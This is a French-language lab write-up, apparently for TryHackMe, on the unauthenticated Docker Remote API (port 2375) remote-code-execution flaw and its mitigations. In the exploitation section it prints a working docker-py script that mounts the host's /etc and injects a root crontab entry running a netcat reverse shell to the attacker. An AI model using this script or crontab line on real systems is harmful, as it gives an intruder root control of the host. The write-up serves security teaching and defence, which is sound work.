



## **Préalables**

**Docker** est une solution de type *PaaS* qui permet de livrer et d’exécuter des logiciels à l’intérieur de **conteneurs**.
Un conteneur embarque tout ce qu’il faut pour faire tourner une application : code, dépendances, librairies, configuration.

### **Les 3 piliers de l’architecture Docker :**

1. **Docker CLI = ton terminal + la commande docker (`docker run`, `docker ps`, etc.)** 

Il **ne gère rien lui-même**, il fait juste **envoyer des instructions** au Docker API : 

- en local via un socket Unix, 
- ou à distance via le port 2375 si celui-ci est ouvert).
  

2. **Docker API** : la passerelle entre le CLI et le Daemon (une interface REST) 
3. Le **Docker Daemon (dockerd)**  :  c’est le moteur qui s’occupe réellement de :
   - lancer les conteneurs,
   - les arrêter,
   - gérer les volumes,
   - télécharger les images,
   - orchestrer toutes les opérations Docker.



## **Quelle est la vulnérabilité?**

Le problème apparaît quand **le Docker Daemon écoute sur le port 2375 en clair**, sans :

- authentification,
- chiffrement,
- contrôle d'accès.

Le port 2375 donne un **accès complet à l’API Docker**, exactement comme si l’attaquant utilisait la commande `docker` sur la machine hôte.


## **Que peut faire un attaquant ?**

S’il accède à l’API non sécurisée, il peut :

- **créer** des conteneurs,
- **modifier** des configurations,
- **exécuter** des commandes,
- monter des volumes du système hôte,
- détourner Docker pour obtenir un shell.

En résumé : il a **les mêmes pouvoirs que l’administrateur Docker**.


## **Conséquences potentielles**

Une exploitation réussie peut mener à :

- **Exécution de code à distance (RCE)** sur la machine hôte
- **Vol ou corruption de données** via les volumes montés
- **Évasion du conteneur** et accès complet au système
- **Compromission totale du serveur** (root complet via Docker)


## **Comprendre la configuration actuelle**

Ce que fait **chaque fichier**, puis de ce qui se passe lorsque tu exécutes :

```bash
docker compose build && docker compose up -d
```

------

# **1. docker-compose.yml**

```yaml
services:
 docker:
   build: .
   ports:
    - "2375:2375"
   privileged: true
```

Ce fichier :

- crée un service appelé **docker**,
- construit l’image à partir du **Dockerfile** présent dans le dossier courant (`build: .`),
- expose **le port 2375 du conteneur vers 2375 de ta machine** (c’est volontairement vulnérable),
- lance le conteneur en mode **privileged**, ce qui donne au conteneur quasiment les mêmes droits que la machine hôte.

En clair : **tu fais tourner un Docker-in-Docker volontairement exposé et totalement permissif pour la démonstration de vulnérabilité.**

------

# **2. docker-entrypoint.sh**

Ce script est exécuté au démarrage du conteneur.

Il fait trois choses :

### **(1) Il configure dockerd**

Il force Docker à écouter :

- en local : `unix:///var/run/docker.sock`
- en réseau : **tcp://0.0.0.0:2375** (le port vulnérable)

C’est ici que l’ouverture totale du daemon se produit.

### **(2) Il passe la commande à dind (Docker-in-Docker)**

Si la commande lancée est `dockerd`, alors :

- il remplace l’exécution par une version adaptée à Docker-in-Docker
- ce qui permet d’avoir **un démon Docker complet à l’intérieur du conteneur**

### **(3) Il démarre cron**

```shell
crond -b -L /var/log/crond.log
```

Ce service tourne en arrière-plan pour permettre l’exploitation par injection de crontab lors de la démonstration.

**Ensuite** :

```
exec "$@"
```

lance réellement `dockerd`.

------

# **3. Dockerfile**

```dockerfile
FROM vulhub/docker:28.0.1
COPY docker-entrypoint.sh /
ENTRYPOINT [ "/docker-entrypoint.sh" ]
```

Ce fichier :

- utilise une image préparée par Vulhub qui supporte Docker-in-Docker,
- copie le script `docker-entrypoint.sh` dans l’image,
- le définit comme **point d’entrée** du conteneur.

**Bref** : ça crée un démon Docker exposé.

------

# **4. Que se passe-t-il quand tu fais :**

```bash
docker compose build && docker compose up -d
```

Voici le déroulement précis :

## **(1) docker compose build**

- Docker lit ton `Dockerfile`
- construit l'image avec :
  - la base `vulhub/docker:28.0.1`
  - le script `docker-entrypoint.sh`
- l’image finale devient celle utilisée par le service `docker`

## **(2) docker compose up -d**

Quand le conteneur démarre :

1. **docker-entrypoint.sh se lance**
2. il prépare la configuration du daemon Docker
3. il démarre Docker-in-Docker avec :
   - socket Unix interne
   - port TCP **2375** ouvert sur toutes les IP
4. il démarre **cron**, utilisé pour injecter la tâche malveillante dans la preuve d’exploitation
5. le conteneur tourne en arrière-plan
    -> grâce au `-d` (detached mode)

Résultat final :

### **Tu obtiens un démon Docker vulnérable, accessible à distance, parfait pour démontrer l’attaque Unauthorized Docker Remote API RCE.**

------


# **Démonstration de l’exploitation**

Cette démonstration illustre comment une mauvaise configuration de Docker (port 2375 exposé sans authentification) permet à un attaquant **d’exécuter des actions critiques sur le daemon Docker à distance**.
Le scénario suivant est réalisé **dans un environnement isolé**, conçu pour l’apprentissage.

------

## **1. Contexte de la vulnérabilité**

Lorsque Docker est configuré pour écouter sur :

```
tcp://0.0.0.0:2375
```

… sans TLS ni authentification, n’importe quel utilisateur capable d’atteindre ce port peut envoyer des requêtes à l’API Docker Remote.

Le daemon Docker considère alors cet utilisateur comme **root**, car l’API n’intègre aucune notion d’utilisateur.

Résultat :
 **toute personne ayant accès au port peut contrôler Docker comme si elle était administrateur du système.**

------

## **2. Objectif de l’exploitation**

Dans le cadre du labo, le but est de montrer qu’un attaquant peut :

- lister les conteneurs, images et volumes
- créer un nouveau conteneur
- monter des dossiers de l’hôte
- exécuter des commandes arbitraires dans ce conteneur
- et donc interagir indirectement avec l’hôte

Ce comportement démontre comment un simple service mal configuré peut mener à une **exécution de code à distance**.


Pour la démonstration, **deux machines sont utilisées : attaquante et victime (machine hote).** Chacune prend des actions précises.

| Action                                     | Où ça se fait ?    |
| ------------------------------------------ | ------------------ |
| Docker daemon exposé sur 2375              | Machine victime    |
| Script Python exploitant l’API             | Machine attaquante |
| Connexion au reverse shell                 | Machine attaquante |
| **Effet** : conteneur modifie /etc du host | Machine victime    |

------

## **3. Approche de l’attaquant dans l’exercice**

Dans la démonstration :

1. L’attaquant découvre que le port **2375/tcp** est accessible.
2. Il identifie qu’il s’agit du **Docker Remote API**.
3. Il interagit avec l’API à partir d’un client Docker configuré pour pointer vers ce port (dans le labo).
4. Il envoie des instructions normales (ex.: créer un conteneur, exécuter une commande).
5. Le daemon exécute les actions **comme si elles venaient d’un administrateur local**.

Tout cela est rendu possible car **le daemon n’impose aucune barrière de sécurité**.

------

## **4. Réproduction de la vulnérabilité (https://github.com/vulhub/vulhub/tree/master/docker/unauthorized-rce)**

**Prérequis** : docker-py

```bash
pip install --upgrade pip && pip install docker
```

**Objectif de l'attaquand** : créer un conteneur qui va monter le repertoire /etc de la victime. 

**Ce que l'attaquant gagne en faisant ça** : devient capable de modifier des systèmes de fichiers critiques. 

**Comment l'attaquant peut faire ça**: ajouter une entrée malveillante dans la crontab qui crée un reverse shell. 

**Avec quoi elle peut le faire**: avec un script python, par exemple 

```python
import docker

IP = IP_CIBLE

client = docker.DockerClient(base_url='http://{IP}:2375/')

data = client.containers.run('alpine:latest', r'''sh -c "echo '* * * * * /usr/bin/nc {IP} 21 -e /bin/sh' >> /tmp/etc/crontabs/root" ''', remove=True, volumes={'/etc': {'bind': '/tmp/etc', 'mode': 'rw'}})
```

### **Que fait ce script exactement ?**

Ce script Python utilise la bibliothèque **docker-py** pour envoyer des commandes au **Docker Remote API** exposé sur le port **2375**.

Voici le déroulé, étape par étape, en **version compréhensible et non-opérationnelle** :

------

#### **1. Connexion à un Docker Daemon exposé**

```python
client = docker.DockerClient(base_url='http://your-ip:2375/')
```

→ Le script contacte un daemon Docker qui écoute en clair sur **TCP 2375**, sans authentification.
 C’est précisément **la vulnérabilité**.

------

## **2. Lancement d’un conteneur Alpine**

```python
client.containers.run('alpine:latest', ...)
```

→ Le script démarre un conteneur basé sur l’image **Alpine Linux**.

------

## **3. Montage du répertoire /etc du système hôte**

```python
volumes={'/etc': {'bind': '/tmp/etc', 'mode': 'rw'}}
```

→ Le conteneur a accès en lecture/écriture au **/etc du système hôte**, ce qui **ne devrait jamais être possible**.

C’est ce qui rend l’exploitation si grave : le conteneur peut modifier des fichiers critiques du système hôte.

------

## **4. Injection d’une ligne dans la crontab du système hôte**

```python
"echo '* * * * * /usr/bin/nc your-ip 21 -e /bin/sh' >> /tmp/etc/crontabs/root"
```

→ Le script ajoute **une entrée de cron** dans la crontab du root du système hôte.
Cette ligne ordonne au système d’exécuter régulièrement une commande destinée à ouvrir une connexion sortante (reverse shell) vers l’attaquant.

Tu n’as pas besoin d’exécuter cette commande dans ton rapport — comprend seulement l’intention :

**C’est une preuve que l’attaquant peut modifier les fichiers système hôte en exploitant Docker exposé.**

------

## **5. Le conteneur s’auto-supprime**

```python
remove=True
```

→ Une fois le travail accompli (l’injection), le conteneur disparaît.
 L’attaque laisse donc très peu de traces.

------

# **En résumé**

**1. Docker exposé sur 2375 = accès total au Docker API**
 **2. Avec cet accès, un attaquant peut lancer un conteneur arbitraire**
 **3. Ce conteneur peut monter /etc de l’hôte**
 **4. Et modifier des fichiers critiques du système hôte (comme crontab)**
 **5. Ce qui permet d’exécuter du code sur la machine hôte**

C’est une **compromission totale**.




#### **Comment vérifier le succès de l'exploitation ?**

En recevant la connexion de reverse shell :

[](https://github.com/vulhub/vulhub/blob/master/docker/unauthorized-rce/1.png)

This vulnerability demonstrates the critical importance of properly securing Docker daemon access and implementing authentication mechanisms for remote API endpoints.

Voici la logique — pas les commandes réutilisables :

- L’attaquant demande au daemon de créer un conteneur basé sur une petite image (ex.: Alpine).
- Il demande ensuite d’exécuter une commande dans ce conteneur.
- Il peut aussi demander de monter un dossier de l’hôte dans ce conteneur.
- Dès que le conteneur tourne avec un montage de l’hôte, l’attaquant peut lire, modifier ou créer des fichiers côté host.

Le daemon exécute tout cela **sans confirmation**, car il considère que la requête est légitime.

------

## **5. Illustration du résultat dans ton labo**

Dans ton environnement TryHackMe :

- le démon Docker tourne à l’intérieur d’un conteneur volontairement vulnérable,
- le port 2375 est exposé, sans TLS, sans authentification,
- tu as montré qu’un client Docker externe peut interagir avec ce daemon et lui faire exécuter des instructions.

Cette preuve valide que :

**L’exposition du port Docker Remote API permet une prise de contrôle totale du daemon, donc du système.**

------

## **6. Conclusion de la démonstration**

Cette attaque prouve qu’exposer le Docker Remote API :

- revient à donner **root** à distance,
- annule toutes les autres protections éventuelles,
- et ouvre la porte à un RCE complet.

C’est pour cela que la documentation officielle recommande :

- d’utiliser **uniquement le socket Unix local** pour Docker,
- ou d’activer **obligatoirement TLS + certificats client** lorsque l’accès réseau est nécessaire.

------


# **Mesures de mitigation**

J’applique le principe de **défense en profondeur**, avec une sécurisation à plusieurs niveaux.
 Pour chaque couche, j’ai répondu à deux questions :

1. **Comment empêcher un attaquant d’accéder à Docker s’il n’a pas encore compromis la machine ?**
2. **S’il compromet la machine, comment limiter son impact ou l’empêcher d’exploiter la vulnérabilité du port 2375 ?**

La vulnérabilité provient d’une exposition directe du Docker Remote API sur **tcp/2375** sans aucune authentification.
Pour empêcher toute exploitation, j’applique une stratégie de **défense en profondeur**, c’est-à-dire placer des protections à chaque couche : réseau, service Docker, et système hôte.

------

## **1. Empêcher l’accès au Docker Daemon depuis l’extérieur**

**Objectif :** si un attaquant n’a pas accès à la machine hôte, il ne doit pas pouvoir communiquer avec le daemon Docker.

### **Mesures**

- **Ne jamais exposer le port 2375 en clair.**
   Le daemon doit être accessible uniquement via :
  - le **socket Unix local** `/var/run/docker.sock`, ou
  - un port sécurisé via **TLS + certificats client**.
- **Utiliser un pare-feu strict** (UFW, iptables, firewall-cmd) :
  - bloquer l’accès à `2375/tcp` depuis l’extérieur,
  - n’autoriser que des IP spécifiques si un accès distant est réellement nécessaire.
- **Placer Docker derrière un tunnel sécurisé** :
  - SSH forwarding,
  - VPN interne (WireGuard, Tailscale, ZeroTier),
  - ou reverse proxy authentifié.
- **Segmenter le réseau** : Docker doit être dans un VLAN ou un sous-réseau non exposé.

------

## **2. Réduire l’impact même si l’attaquant atteint la machine**

**Objectif :** si quelqu’un parvient à exécuter du code sur l’hôte, il faut limiter les dégâts possibles.

### **Mesures**

- **Ne pas lancer Docker en mode privilégié.**
   Ce mode donne un accès trop large aux capacités du noyau.
- **Désactiver les options risquées dans Docker** :
  - pas de `--privileged`,
  - pas de `--device`,
  - pas de montages sensibles (`/etc`, `/root`, `/var/run/docker.sock`).
- **Activer les profils de sécurité Docker :**
  - **AppArmor** (Ubuntu, Debian),
  - **SELinux** (CentOS, Fedora),
  - **seccomp** (profil par défaut recommandé).
- **Créer un utilisateur Docker dédié**, sans privilèges root, et limiter l’accès au groupe `docker`.
- **Surveiller l’activité du daemon** :
  - auditd,
  - journald,
  - Falco,
  - logs du Docker Daemon.
- **Mettre à jour régulièrement Docker Engine**, car les versions récentes corrigent de nombreux comportements dangereux.

------

## **3. Synthèse de la défense en profondeur**

| Niveau            | Objectif                                 | Mesures principales                                    |
| ----------------- | ---------------------------------------- | ------------------------------------------------------ |
| **Réseau**        | Empêcher l’accès au port 2375            | Firewall, pas d’exposition publique, VPN/SSH           |
| **Daemon Docker** | Exiger une authentification              | TLS + certs, socket Unix uniquement                    |
| **Hôte**          | Réduire l’impact en cas de compromission | Pas de mode privilégié, AppArmor/SELinux, mises à jour |

------

## **4. Résultat**

Avec ces protections :

- un attaquant ne peut plus atteindre l’API Docker depuis l’extérieur,
- même s’il obtient un accès local, il ne peut plus exploiter la même vulnérabilité,
- l’impact d’un éventuel contournement est fortement réduit par les mécanismes de sécurité du noyau.

------




------

## **1. Empêcher l’accès au Docker Daemon (Protection périmétrique)**

### **Désactiver l’exposition du port 2375**

Le port `2375` est **non sécurisé**, aucune authentification, aucun chiffrement.
 Il ne devrait **jamais** être exposé sur une interface réseau.

- Supprimer `-H tcp://0.0.0.0:2375`
- Utiliser **uniquement** le socket UNIX par défaut :
   `/var/run/docker.sock`

C’est la mesure la plus importante : **pas de port exposé = pas d’exploitation possible**.

------

## **2. Si l’exposition est nécessaire : sécuriser la communication**

### **Option A — Utiliser SSH (méthode recommandée)**

Plutôt que d’exposer Docker en TCP, on fait transiter les commandes via SSH :

```
docker context create \
  --docker host=ssh://docker-user@remote-host \
  my-remote-engine
```

Bénéfices :

- pas d’ouverture de port TCP Docker
- chiffrement et authentification native
- surface d’attaque minimale
- pas besoin de config TLS complexe

C’est **de loin** la meilleure solution.

------

### **Option B — Utiliser TLS (HTTPS) si TCP est obligatoire**

Si une exposition HTTP est indispensable, elle doit être **sécurisée par TLS Mutual Auth (mTLS)**.

Cela implique :

- création d’une **CA**
- génération d’un certificat serveur
- génération d’un certificat client
- activation de `--tlsverify` dans `dockerd`

Exemple mínima :

```
dockerd \
  --tlsverify \
  --tlscacert=ca.pem \
  --tlscert=server-cert.pem \
  --tlskey=server-key.pem \
  -H=0.0.0.0:2376
```

Le port sécurisé devient **2376**, pas 2375.

Effet :

- Un client sans certificat → **refusé**
- Les communications → **chiffrées**

------

## **3. Réduire l’impact si l’attaquant accède à la machine**

### **Utiliser les user namespaces**

Empêcher qu’un root dans un conteneur = root sur la machine hôte.

```
{
  "userns-remap": "default"
}
```

Ça limite fortement les dégâts d’un conteneur détourné.

------

### **Profils AppArmor et Seccomp**

Docker inclut :

- un profil seccomp par défaut
- un profil AppArmor par distribution

Cela réduit les actions possibles dans un conteneur (même si l’attaquant en contrôle un).

------

### **Limiter les montages sensibles**

Empêcher les conteneurs d’accéder :

- à `/etc`
- au docker.sock
- à `/var/lib/docker`

→ ça empêche exactement l’attaque que tu as exploitée.

------

### **Ne jamais exécuter le daemon en root complet**

Utiliser :

- `rootless Docker`
   ou
- ajouter les utilisateurs au groupe docker de manière contrôlée

Ça réduit l’impact en cas de compromission.

------

## **4. Sécurité réseau**

### **Firewall**

N’autoriser que :

- localhost
- IPs de machines de management
- jamais Internet

Exemple :

```
ufw deny 2375/tcp
ufw allow from X.X.X.X to any port 2376 proto tcp
```

------

## **Conclusion**

Ton raisonnement basé sur tes deux questions donne une structure solide :

### 1. *Avant la compromission*

→ Ne pas exposer 2375, utiliser SSH/TLS, filtrer avec firewall.

### 2. *Après la compromission*

→ AppArmor, Seccomp, User Namespace, Rootless Docker, éviter les montages dangereux.

C’est **exactement ce qu’attendent** les reviewers TryHackMe ou GitHub :
 tu comprends l’impact, et tu montres **comment on sécurise correctement Docker dans une vraie infra**.

------


**Ressources** : 

- https://docs.docker.com/engine/security/protect-access/
- https://tttang.com/archive/357/


# **Preuve que les mesurent marches** 
